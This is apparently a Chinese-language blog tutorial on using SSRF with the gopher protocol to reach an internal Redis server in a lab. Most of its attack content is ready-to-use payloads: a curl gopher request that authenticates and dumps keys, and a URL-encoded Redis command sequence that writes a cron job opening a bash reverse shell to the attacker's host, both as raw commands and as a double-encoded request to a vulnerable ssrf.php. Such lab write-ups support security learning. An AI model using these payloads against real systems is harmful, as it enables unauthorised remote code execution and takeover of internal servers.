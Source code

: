 # <center>SSRF 攻击 Redis Getshell（生成 gopher payload）</center>

## 📍 目录

>  * 前言
>  * gopher 协议概述
>  * 构造和生成 payload
>  * SSRF+gopher 访问内网 redis
>  * 后话

## 📍 前言

这篇博客就不细讲 SSRF+gopher 的具体攻击过程了，主要针对 gopher 协议的特点生成 payload 做一点微小的研究。

## 📍 gopher 协议概述

```
gopher://192.168.0.105:70/_ + DATA
```

使用 gopher 协议时若不指定端口则向默认端口 70 发送数据。后面的 `_` 是必需的，可以是任意字符，不会被传输，但是必须要有，表示后面接着的都是要传输的数据。

只要精心构造 `DATA` ，就可以通过 gopher 协议访问 redis、mysql 或者发送 GET/POST 请求。

### 访问 Redis

简述一下环境：

```
0.101 攻击者
0.100 redis 服务器
0.104 web 服务器
```

首先要搞清楚访问 redis 时每次发送的数据是怎样的，所以先用 `socat` 监听 4444 端口，将 redis 的 6379 端口转发至 4444 来监听 gopher 访问 redis 的流量：

```
// redis 服务器执行
$ socat -v tcp-listen:4444,fork tcp-connect:192.168.0.100:6379
```

然后在攻击机 `redis-cli` 连接 redis 服务器的 4444 端口，运行一些常见指令，这里 redis 的密码是 123456。

![Screenshot 2020-06-26 上午4.40.02](pic/Screenshot%202020-06-26%20%E4%B8%8A%E5%8D%884.40.02.jpg)

命令依次是输入密码、显示所有键，输出 `name` 键的值。

查看 redis 服务器，得到的回显如下：

![Screenshot 2020-06-26 上午4.39.59](pic/Screenshot%202020-06-26%20%E4%B8%8A%E5%8D%884.39.59.jpg)

那么，如果我们构造 gopher 的 `DATA` 也是这种格式的话，就可以获取到数据。借助 web 服务器利用 SSRF 就可以达到攻击内网 redis 的目的。

### gopher 协议转换规则

gopher 协议支持 url 编码后的 % 编码，但很多字符用常见的 url 编码器并不会编码，如果部分字符不编码，则 `curl` 不解析。所以最好所有字符都编码。

简单记录几点：

> - 如果第一个字符是 `>` 或者 `<` 那么丢弃该行字符串，表示请求和返回的时间。
> - 如果前 3 个字符是 `+OK` 那么丢弃该行字符串，表示返回的字符串。
> - 将 `\r` 字符串替换成 `%0d%0a` 
> - 空白行替换为 `%0a` 

## 📍 构造和生成 Payload

写了一个[脚本](https://github.com/NickYan7/gopher_payload_generator)，将 redis 指令写入 `bin.txt` ，然后脚本直接输出 `payload` ，如图：

![Screenshot 2020-06-26 上午4.59.50](pic/Screenshot%202020-06-26%20%E4%B8%8A%E5%8D%884.59.50.jpg)

`\r` 表示换行，这里就不用写了。

payload：`curl gopher://192.168.0.100:6379/_%2a%32%0d%0a%24%34%0d%0a%41%55%54%48%0d%0a%24%36%0d%0a%31%32%33%34%35%36%0d%0a%2a%32%0d%0a%24%34%0d%0a%6b%65%79%73%0d%0a%24%31%0d%0a%2a%0d%0a`

`curl` 支持 gopher 协议。可以看到返回了所有键：

![Screenshot 2020-06-26 上午5.04.03](pic/Screenshot%202020-06-26%20%E4%B8%8A%E5%8D%885.04.03.jpg)

## 📍 SSRF+gopher 攻击内网 Redis

### 写入 crontab 计划任务反弹 shell

写入 crontab 计划任务需要目标的 redis 服务是 root 权限，其实有点苛刻。简述一下环境：

```
0.101 攻击者
0.100 redis 服务器，只开放给局域网内
0.105 web 服务器，php 支持 curl_exec
```

首先构造 payload：

```
*2\r
$4\r
auth\r
$6\r
123456\r
*4\r
$6\r
config\r
$3\r
set\r
$3\r
dir\r
$15\r
/var/spool/cron\r
*3\r
$3\r
set\r
$3\r
xxx\r
$62\r


*/1 * * * * /bin/bash -i>&/dev/tcp/192.168.0.101/4646 0>&1

\r
*4\r
$6\r
config\r
$3\r
set\r
$10\r
dbfilename\r
$4\r
root\r
*1\r
$4\r
save\r
```

脚本转换得到：

```
*2%0d%0a$4%0d%0aauth%0d%0a$6%0d%0a123456%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$15%0d%0a/var/spool/cron%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$3%0d%0axxx%0d%0a$62%0d%0a%0a%0a*/1 * * * * /bin/bash -i>&/dev/tcp/192.168.0.101/4646 0>&1%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a
```

攻击者本地监听 4646 端口，web 服务器的 SSRF 漏洞点位于 ssrf.php。由于先访问 web 服务器，会编码解码一次，ssrf 在访问内网 redis 时又要解码一次，所以 gopher 请求部分的内容需要二次 url 编码。

构造 payload：

```
http://192.168.0.105/ssrf_test/ssrf.php?url=gopher%3a%2f%2f192.168.0.100%3a6379%2f_*2%250d%250a%244%250d%250aauth%250d%250a%246%250d%250a123456%250d%250a*4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%243%250d%250adir%250d%250a%2415%250d%250a%2fvar%2fspool%2fcron%250d%250a*3%250d%250a%243%250d%250aset%250d%250a%243%250d%250axxx%250d%250a%2462%250d%250a%250a%250a*%2f1+*+*+*+*+%2fbin%2fbash+-i%3e%26%2fdev%2ftcp%2f192.168.0.101%2f4646+0%3e%261%250a%250d%250a*4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%2410%250d%250adbfilename%250d%250a%244%250d%250aroot%250d%250a*1%250d%250a%244%250d%250asave%250d%250a
```

浏览器访问（没有回显）：

![Screenshot 2020-06-26 上午7.40.42](pic/Screenshot%202020-06-26%20%E4%B8%8A%E5%8D%887.40.42.jpg)

一分钟后，攻击者的机器弹回内网 redis 服务器的 shell：

![Screenshot 2020-06-26 上午7.40.22](pic/Screenshot%202020-06-26%20%E4%B8%8A%E5%8D%887.40.22.jpg)

## 📍 后话

这只是 SSRF+gopher 众多玩法中的一点而已，复现过程中其实小坑还是蛮多的：

* `curl` 的 payload 格式和 http 请求的格式有些许不同，为此我写了两个用来转换 payload 的脚本。
* 浏览器请求时一定要注意 gopher 部分的二次编码。
* 如果是自己搭环境测试，要注意 php 支持 curl_exec 扩展才能进行 gopher 请求，php 版本要大于 3.3。

### 访问 mysql

访问 mysql 的步骤和访问 redis 其实大同小异，也是先监听端口转发流量分析流量的格式。但是有一个问题我一直没搞明白：redis 允许先连接，然后 `auth password` 这种方式来认证，方便分析流量，但是 mysql 在进行连接时必须带参数 `-p` 来输入密码，这样的话第一步密码的流量就抓不到了，那还怎么连 mysql 呢？费解。

### 发送 GET/POST 数据

浏览器访问，Burp 抓包，然后另存为文件，其他的思路都差不多。

